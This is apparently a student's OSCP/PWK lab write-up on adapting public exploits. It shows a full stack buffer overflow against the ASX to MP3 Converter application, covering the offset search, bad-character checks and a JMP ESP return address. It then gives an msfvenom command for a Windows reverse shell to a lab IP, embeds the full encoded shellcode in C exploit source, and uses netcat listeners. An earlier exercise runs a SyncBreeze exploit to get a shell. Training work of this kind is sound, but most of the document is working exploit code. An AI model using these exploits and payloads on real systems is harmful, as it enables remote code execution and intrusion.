









15.1.7.1

# 15.1.7.1
## 15.1.7.1.1. Fix the overflow buffer such that the EIP register will be overwritten by your chosen return address instruction.

Change the buffer size in 42341.c


Compile
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```
Open a netcat listener on port 443
```plaintext
kali@kali:~$ sudo nc -lnvp 443
[sudo] password for kali: 
listening on [any] 443 ...
```

Run the exploit (don't set any breakpoints)
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ wine syncbreeze_exploit.exe 

[>] Initialising Winsock...
[>] Initialised.
[>] Socket created.
[>] Connected

[>] Request sent
```

Notice we have a shell on the netcat listener


## 15.1.7.1.2. Install the ASX to MP3 Converter application located under the **C:\Tools\fixing_exploits** directory; download the exploit for ASX to MP3 Converter from EDB 391 and edit it in order to get a shell on your dedicated Windows machine.

### Download the exploit
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ searchsploit -m 38457
  Exploit: ASX to MP3 Converter 1.82.50 (Windows 2003 x86) - '.asx' Local Stack Overflow
      URL: https://www.exploit-db.com/exploits/38457
     Path: /usr/share/exploitdb/exploits/windows_x86/local/38457.c
File Type: C source, UTF-8 Unicode text, with CRLF line terminators

Copied to: /home/kali/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter/38457.c
```

### Compile
Look at the code. We see from the headers that this is meant for Windows.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ cat 38457.c 
/*
ASX to MP3 Converter SOF - Ivan Ivanovic Ivanov Иван-дурак
недействительный 31337 Team
holahola ~ https://www.exploit-db.com/exploits/38382/
Winblows 2k3
*/

#include <stdio.h>
#include <windows.h>
#include <malloc.h>
```

It cross-compiles without error
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ i686-w64-mingw32-gcc 38457.c -o converter_exploit.exe
```

### Run the exploit on Windows.
Transfer the executable to netcat. I saved it on the Desktop. Double-click the executable and you'll see a new file created named exploit.asx


Open Immunity Debugger and 'Attach' the ASP to MP3 converter.


Load exploit.exe into the ASX to MP3 converter app.

Check the debugger, you'll see it crashed at EIP 41414141. Notice ECX may be part part of our buffer, and ESP may also be part of the end of the buffer...


### Crash the app with just all A's
Here is the code with just A's:
```c
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ cat 1_poc.c 
/*
ASX to MP3 Converter SOF - Ivan Ivanovic Ivanov Иван-дурак
недействительный 31337 Team
holahola ~ https://www.exploit-db.com/exploits/38382/
Winblows 2k3
*/

#include <stdio.h>
#include <windows.h>
#include <malloc.h>

int main() {

    int i;
    char *overwrite_offset = malloc(625);
    for(i = 0; i < 625; i += 5) {
        char padding[] = "\x41\x41\x41\x41\x41"; 
        memcpy(overwrite_offset + i, padding, strlen(padding));
    }
    memset(overwrite_offset + _msize(overwrite_offset) - 1, 0x00, 1);

    int buffer_size = _msize(overwrite_offset);
    char *buffer = malloc(buffer_size);

    memcpy(buffer, overwrite_offset, _msize(overwrite_offset));
    memset(buffer + buffer_size - 1, 0x00, 1);

    FILE * fp;
    fp = fopen("exploit.asx","w");
    fprintf(fp, buffer); 
    fclose(fp);

    return 0;

}
```

We have an access violation at EIP 41414141. Try smaller buffer


Buffer size of 325, and it results in another access violation at EIP 41414141. Try smaller.


Buffer size 125, and it results in an unknown media file error. Try a bigger buffer.


Buffer size 225, and we get unknown media file error again. Try a size between 225-325.


Buffer size 275, and we get an access violation at EIP 41414141. Next try a smaller number between 225-275


Buffer size 250, we get an access violation at EIP 41414141. Next try a number between 225-250


Buffer size 240. We get the unknown media file error. Next try a number between 240-250


Buffer size 245. We get an access violation at 00414141



### Verify offset
So buffer size 250 is when we get the last crash with EIP 41414141. Use msf to create a unique string of length 250 to determine the exact offset.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter/determine_offset$ msf-pattern_create -l 250 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
```

Use the unique string within the poc. Run the exploit. We get an access violation at EIP 69413069


Determine the exact offset using msf-pattern_offset
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ msf-pattern_offset -l 250 -q 69413069[*] Exact match at offset 241
```

Here is the code to verify offset:
```c
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ cat 3_verify_offset.c 
/*
ASX to MP3 Converter SOF - Ivan Ivanovic Ivanov Иван-дурак
недействительный 31337 Team
holahola ~ https://www.exploit-db.com/exploits/38382/
Winblows 2k3
*/

#include <stdio.h>
#include <windows.h>
#include <malloc.h>

int main() {

    /* msf-pattern_create -l 250 */
    /* filler = 241 */
    /* eip = 4 */
    /* pad = 5 */
    char pattern[] =    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                        "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                        "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                        "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                        "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCC";

    char *overwrite_offset = malloc(250);
    memcpy(overwrite_offset, pattern, strlen(pattern));
    memset(overwrite_offset + _msize(overwrite_offset) - 1, 0x00, 1);

    int buffer_size = _msize(overwrite_offset);
    char *buffer = malloc(buffer_size);

    memcpy(buffer, overwrite_offset, _msize(overwrite_offset));
    memset(buffer + buffer_size - 1, 0x00, 1);

    FILE * fp;
    fp = fopen("exploit.asx","w");
    fprintf(fp, buffer); 
    fclose(fp);

    return 0;

}
```

The result is access violation at EIP 42424242


### Locate space for our shellcode.
First we will try the technique of just increasing our buffer. We will have 376 bytes to play with. Here is the script that shows the space for a placeholder as D's.
```c
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ cat 4_locate_shellcode_space.c 
/*
ASX to MP3 Converter SOF - Ivan Ivanovic Ivanov Иван-дурак
недействительный 31337 Team
holahola ~ https://www.exploit-db.com/exploits/38382/
Winblows 2k3
*/

#include <stdio.h>
#include <windows.h>
#include <malloc.h>

int main() {

    /*  msf-pattern_create -l 250 
        filler = 241 
        eip = 4 
        pad = 4 
        placeholder = 376 */
    char pattern[] =    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                        "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                        "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                        "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                        "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCD"
                        "DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD"
                        "DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD"
                        "DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD"
                        "DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD"
                        "DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD"
                        "DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD"
                        "DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD"
                        "DDDDDDDDDDDDDDDDDDDDDDDDD";

    char *overwrite_offset = malloc(625);
    memcpy(overwrite_offset, pattern, strlen(pattern));
    memset(overwrite_offset + _msize(overwrite_offset) - 1, 0x00, 1);

    int buffer_size = _msize(overwrite_offset);
    char *buffer = malloc(buffer_size);

    memcpy(buffer, overwrite_offset, _msize(overwrite_offset));
    memset(buffer + buffer_size - 1, 0x00, 1);

    FILE * fp;
    fp = fopen("exploit.asx","w");
    fprintf(fp, buffer); 
    fclose(fp);

    return 0;

}
```

The result is access violation with EIP 42424242. ESP points to the start of our shellcode placeholder.


### Checking for Bad Characters
There are 5 bad characters: `\x00\x09\x0a\x1a\x25`



Here is the script that produces the above output:
```c
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ cat 5_bad_chars.c
/*
ASX to MP3 Converter SOF - Ivan Ivanovic Ivanov Иван-дурак
недействительный 31337 Team
holahola ~ https://www.exploit-db.com/exploits/38382/
Winblows 2k3
*/

#include <stdio.h>
#include <windows.h>
#include <malloc.h>

int main() {

    /*  msf-pattern_create -l 250 
        filler = 241 
        eip = 4 
        pad = 4 
        placeholder = 376 */
    char pattern[] =    "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x42\x42\x42\x42\x43\x43\x43\x43\x01"
                        "\x02\x03\x04\x05\x06\x07\x08\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1b\x1c\x1d"
                        "\x1e\x1f\x20\x21\x22\x23\x24\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37"
                        "\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
                        "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69"
                        "\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82"
                        "\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b"
                        "\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4"
                        "\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd"
                        "\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6"
                        "\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
                        "\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44"
                        "\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44"
                        "\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44"
                        "\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44"
                        "\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44";

    char *overwrite_offset = malloc(625);
    memcpy(overwrite_offset, pattern, strlen(pattern));
    memset(overwrite_offset + _msize(overwrite_offset) - 1, 0x00, 1);

    int buffer_size = _msize(overwrite_offset);
    char *buffer = malloc(buffer_size);

    memcpy(buffer, overwrite_offset, _msize(overwrite_offset));
    memset(buffer + buffer_size - 1, 0x00, 1);

    FILE * fp;
    fp = fopen("exploit.asx","w");
    fprintf(fp, buffer); 
    fclose(fp);

    return 0;

}
```

### Finding a Return Address
Run `!mona modules`. We ssee that ASX2MP3Converter.exe has Rebase, SafeSEH, ASLR, NXCompat, and OSDll disabled. The only other module with similar status is `MSA2Mutility03.dll` and it loads at a suitable address that does not contain our bad chars 0x10000000


Let's get the opcode for jumping to the stack pointer
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ msf-nasm_shell 
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > 
```

Run `!mona find -s “\xff\xe4” -m “MSA2Mutility03.dll”`. We get 2 pointers. We will choose 0x1003789d because it does not contain bad chars.


We go to the address 0x1003789d and visually confirm it has the JMP ESP, then set a breakpoint on it.


Run the code, and we hit the breakpoint


### Generate the shellcode 
Generate using msfvenom
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.214 lport=443 -f c -e x86/shikata_ga_nai -b "\x00\x09\x0a\x1a\x25"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xdb\xd1\xd9\x74\x24\xf4\x5a\x33\xc9\xb1\x52\xb8\xc6\x01\xb8"
"\xb1\x31\x42\x17\x83\xc2\x04\x03\x84\x12\x5a\x44\xf4\xfd\x18"
"\xa7\x04\xfe\x7c\x21\xe1\xcf\xbc\x55\x62\x7f\x0d\x1d\x26\x8c"
"\xe6\x73\xd2\x07\x8a\x5b\xd5\xa0\x21\xba\xd8\x31\x19\xfe\x7b"
"\xb2\x60\xd3\x5b\x8b\xaa\x26\x9a\xcc\xd7\xcb\xce\x85\x9c\x7e"
"\xfe\xa2\xe9\x42\x75\xf8\xfc\xc2\x6a\x49\xfe\xe3\x3d\xc1\x59"
"\x24\xbc\x06\xd2\x6d\xa6\x4b\xdf\x24\x5d\xbf\xab\xb6\xb7\xf1"
"\x54\x14\xf6\x3d\xa7\x64\x3f\xf9\x58\x13\x49\xf9\xe5\x24\x8e"
"\x83\x31\xa0\x14\x23\xb1\x12\xf0\xd5\x16\xc4\x73\xd9\xd3\x82"
"\xdb\xfe\xe2\x47\x50\xfa\x6f\x66\xb6\x8a\x34\x4d\x12\xd6\xef"
"\xec\x03\xb2\x5e\x10\x53\x1d\x3e\xb4\x18\xb0\x2b\xc5\x43\xdd"
"\x98\xe4\x7b\x1d\xb7\x7f\x08\x2f\x18\xd4\x86\x03\xd1\xf2\x51"
"\x63\xc8\x43\xcd\x9a\xf3\xb3\xc4\x58\xa7\xe3\x7e\x48\xc8\x6f"
"\x7e\x75\x1d\x3f\x2e\xd9\xce\x80\x9e\x99\xbe\x68\xf4\x15\xe0"
"\x89\xf7\xff\x89\x20\x02\x68\x76\x1c\x7b\xbe\x1e\x5f\x83\x3f"
"\x64\xd6\x65\x55\x8a\xbf\x3e\xc2\x33\x9a\xb4\x73\xbb\x30\xb1"
"\xb4\x37\xb7\x46\x7a\xb0\xb2\x54\xeb\x30\x89\x06\xba\x4f\x27"
"\x2e\x20\xdd\xac\xae\x2f\xfe\x7a\xf9\x78\x30\x73\x6f\x95\x6b"
"\x2d\x8d\x64\xed\x16\x15\xb3\xce\x99\x94\x36\x6a\xbe\x86\x8e"
"\x73\xfa\xf2\x5e\x22\x54\xac\x18\x9c\x16\x06\xf3\x73\xf1\xce"
"\x82\xbf\xc2\x88\x8a\x95\xb4\x74\x3a\x40\x81\x8b\xf3\x04\x05"
"\xf4\xe9\xb4\xea\x2f\xaa\xc5\xa0\x6d\x9b\x4d\x6d\xe4\x99\x13"
"\x8e\xd3\xde\x2d\x0d\xd1\x9e\xc9\x0d\x90\x9b\x96\x89\x49\xd6"
"\x87\x7f\x6d\x45\xa7\x55";
```

Add the payload to the exploit.
```c
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ cat 7_add_shellcode_yes_nops.c
/*
ASX to MP3 Converter SOF - Ivan Ivanovic Ivanov Иван-дурак
недействительный 31337 Team
holahola ~ https://www.exploit-db.com/exploits/38382/
Winblows 2k3
*/

#include <stdio.h>
#include <windows.h>
#include <malloc.h>

int main() {

    /*  msf-pattern_create -l 250 
        filler = 241 
        eip = 4,"\x9d\x78\x03\x10" 0x1003789d 
        pad = 4 
        placeholder = 376 */
    /* msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.214 lport=443 -f c -e x86/shikata_ga_nai -b "\x00\x09\x0a\x1a\x25" */
    char pattern[] =    "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x9d\x78\x03\x10\x43\x43\x43\x43\x90"
                        "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xdb"
                        "\xd1\xd9\x74\x24\xf4\x5a\x33\xc9\xb1\x52\xb8\xc6\x01\xb8\xb1\x31\x42\x17\x83\xc2\x04\x03\x84\x12\x5a"
                        "\x44\xf4\xfd\x18\xa7\x04\xfe\x7c\x21\xe1\xcf\xbc\x55\x62\x7f\x0d\x1d\x26\x8c\xe6\x73\xd2\x07\x8a\x5b"
                        "\xd5\xa0\x21\xba\xd8\x31\x19\xfe\x7b\xb2\x60\xd3\x5b\x8b\xaa\x26\x9a\xcc\xd7\xcb\xce\x85\x9c\x7e\xfe"
                        "\xa2\xe9\x42\x75\xf8\xfc\xc2\x6a\x49\xfe\xe3\x3d\xc1\x59\x24\xbc\x06\xd2\x6d\xa6\x4b\xdf\x24\x5d\xbf"
                        "\xab\xb6\xb7\xf1\x54\x14\xf6\x3d\xa7\x64\x3f\xf9\x58\x13\x49\xf9\xe5\x24\x8e\x83\x31\xa0\x14\x23\xb1"
                        "\x12\xf0\xd5\x16\xc4\x73\xd9\xd3\x82\xdb\xfe\xe2\x47\x50\xfa\x6f\x66\xb6\x8a\x34\x4d\x12\xd6\xef\xec"
                        "\x03\xb2\x5e\x10\x53\x1d\x3e\xb4\x18\xb0\x2b\xc5\x43\xdd\x98\xe4\x7b\x1d\xb7\x7f\x08\x2f\x18\xd4\x86"
                        "\x03\xd1\xf2\x51\x63\xc8\x43\xcd\x9a\xf3\xb3\xc4\x58\xa7\xe3\x7e\x48\xc8\x6f\x7e\x75\x1d\x3f\x2e\xd9"
                        "\xce\x80\x9e\x99\xbe\x68\xf4\x15\xe0\x89\xf7\xff\x89\x20\x02\x68\x76\x1c\x7b\xbe\x1e\x5f\x83\x3f\x64"
                        "\xd6\x65\x55\x8a\xbf\x3e\xc2\x33\x9a\xb4\x73\xbb\x30\xb1\xb4\x37\xb7\x46\x7a\xb0\xb2\x54\xeb\x30\x89"
                        "\x06\xba\x4f\x27\x2e\x20\xdd\xac\xae\x2f\xfe\x7a\xf9\x78\x30\x73\x6f\x95\x6b\x2d\x8d\x64\xed\x16\x15"
                        "\xb3\xce\x99\x94\x36\x6a\xbe\x86\x8e\x73\xfa\xf2\x5e\x22\x54\xac\x18\x9c\x16\x06\xf3\x73\xf1\xce\x82"
                        "\xbf\xc2\x88\x8a\x95\xb4\x74\x3a\x40\x81\x8b\xf3\x04\x05\xf4\xe9\xb4\xea\x2f\xaa\xc5\xa0\x6d\x9b\x4d"
                        "\x6d\xe4\x99\x13\x8e\xd3\xde\x2d\x0d\xd1\x9e\xc9\x0d\x90\x9b\x96\x89\x49\xd6\x87\x7f\x6d\x45\xa7\x55";

    char *overwrite_offset = malloc(625);
    memcpy(overwrite_offset, pattern, strlen(pattern));
    memset(overwrite_offset + _msize(overwrite_offset) - 1, 0x00, 1);

    int buffer_size = _msize(overwrite_offset);
    char *buffer = malloc(buffer_size);

    memcpy(buffer, overwrite_offset, _msize(overwrite_offset));
    memset(buffer + buffer_size - 1, 0x00, 1);

    FILE * fp;
    fp = fopen("exploit.asx","w");
    fprintf(fp, buffer); 
    fclose(fp);

    return 0;

}
```

Cross-compile the exploit
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ i686-w64-mingw32-gcc 7_add_shellcode_yes_nops.c -o 7_add_shellcode_yes_nops.exe
```

Start a netcat listener on the Windows machine that receives the .exe upon connection.
```plaintext
